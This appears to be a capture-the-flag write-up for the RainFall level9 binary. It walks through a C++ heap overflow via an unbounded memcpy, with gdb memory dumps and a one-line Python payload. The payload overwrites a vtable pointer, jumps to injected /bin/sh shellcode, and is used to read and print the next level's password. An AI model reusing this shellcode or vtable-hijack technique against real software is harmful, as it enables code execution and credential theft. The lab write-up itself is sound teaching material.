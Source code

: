 in this challenge we have a binary that is compiled from a cpp file.

after figuring out the source code we see that we have a class called `N` that is declared as follows: 

```cpp
class   N {
    private:
        int     value;
        char    annotation[100];
    public:
        N(int value) {
            this->value = value;
        }

        virtual ~N() {}

        virtual int operator+(N& obj) {
            return obj.value + this->value;
        }

        virtual int operator-(N& obj) {
            return obj.value - this->value;
        }

        void    setAnnotation(char *str) {
            memcpy(this->annotation, str, strlen(str));
        }
};
```

since we have virtual functions and a method `setAnnotation` that uses `memcpy` without bounds, that means that we can overwrite the `annotation` attribute.

in our main we declare 2 objects of this class in the heap using `new`

if we look in our memory using gdb we see this:

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   ebp
   0x080485f5 <+1>:	mov    ebp,esp
   0x080485f7 <+3>:	push   ebx
   0x080485f8 <+4>:	and    esp,0xfffffff0
   0x080485fb <+7>:	sub    esp,0x20
   0x080485fe <+10>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048602 <+14>:	jg     0x8048610 <main+28>
   0x08048604 <+16>:	mov    DWORD PTR [esp],0x1
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:	mov    ebx,eax
   0x0804861e <+42>:	mov    DWORD PTR [esp+0x4],0x5
   0x08048626 <+50>:	mov    DWORD PTR [esp],ebx
   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:	mov    DWORD PTR [esp+0x1c],ebx
   0x08048632 <+62>:	mov    DWORD PTR [esp],0x6c
   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:	mov    ebx,eax
   0x08048640 <+76>:	mov    DWORD PTR [esp+0x4],0x6
   0x08048648 <+84>:	mov    DWORD PTR [esp],ebx
   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:	mov    DWORD PTR [esp+0x18],ebx
   0x08048654 <+96>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048658 <+100>:	mov    DWORD PTR [esp+0x14],eax
   0x0804865c <+104>:	mov    eax,DWORD PTR [esp+0x18]
   0x08048660 <+108>:	mov    DWORD PTR [esp+0x10],eax
   0x08048664 <+112>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048667 <+115>:	add    eax,0x4
   0x0804866a <+118>:	mov    eax,DWORD PTR [eax]
   0x0804866c <+120>:	mov    DWORD PTR [esp+0x4],eax
   0x08048670 <+124>:	mov    eax,DWORD PTR [esp+0x14]
   0x08048674 <+128>:	mov    DWORD PTR [esp],eax
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:	mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:	mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:	mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:	mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:	mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:	mov    DWORD PTR [esp],eax
   0x08048693 <+159>:	call   edx
   0x08048695 <+161>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x08048698 <+164>:	leave  
   0x08048699 <+165>:	ret    
End of assembler dump.
(gdb) break main+40
Function "main+40" not defined.
Make breakpoint pending on future shared library load? (y or [n]) n
(gdb) break *main+40
Breakpoint 1 at 0x804861c
(gdb) break *main+74
Breakpoint 2 at 0x804863e
(gdb) r lmao
Starting program: /home/user/level9/level9 lmao

Breakpoint 1, 0x0804861c in main ()
(gdb) x $eax
0x804a008:	0x00000000
(gdb) c
Continuing.

Breakpoint 2, 0x0804863e in main ()
(gdb) x $eax
0x804a078:	0x00000000
(gdb) break *main+136
Breakpoint 3 at 0x804867c
(gdb) c
Continuing.

Breakpoint 3, 0x0804867c in main ()
(gdb) x/70wx 0x804a008
0x804a008:	0x08048848	0x6f616d6c	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005	0x00000071
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d8:	0x00000000	0x00000000	0x00000006	0x00020f21
0x804a0e8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0f8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a108:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a118:	0x00000000	0x00000000
(gdb) 
```

first i disassembled the main function where i looked for the value of `eax` in 2 breakpoints to find the return of `new` function (the addresses of both `obj1` and `obj2` in the heap) then i set another break after `setAnnotation` call to see the layout of memory of both obj1 and obj2.

the address at the start of each object is a pointer to the vtable which contains both operator+ and operator-.

we can see that if we use a long enough string as an argument we can overwrite the vtable address of obj2 and put any address we want to redirect execution to since we call operator+ of obj2 in the end of our main:

```cpp
return (*obj2 + *obj1); => return obj->operator+(N &obj1);
```

now we know what to do: we hijack the vtable pointer in obj2, redirect it to an address that points to another address that takes us to a shellcode we inject using obj1 buffer.

```bash
./level9 $(python -c 'print "\x08\x04\xa0\x10"[::-1] + "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" + "A" * (108 - 48) + "\x08\x04\xa0\x0c"[::-1]')
```

this payload if fairly easy to understand : first thing we think about here is the address `\x08\x04\xa0\x0c` (=> start of obj1 + 4 => start of annotation buffer) we will put in our obj2 vtable pointer, next we look at that location and put the address of our shellcode in it `\x08\x04\xa0\x10` (=> start of obj1 + 8 => start of shellcode in annotation buffer) the rest is the shellcode and the offset to the vtable pointer.

```bash
level9@RainFall:~$ ./level9 $(python -c 'print "\x08\x04\xa0\x10"[::-1] + "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" + "A" * (108 - 48) + "\x08\x04\xa0\x0c"[::-1]')
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$ 
```

and there you go.
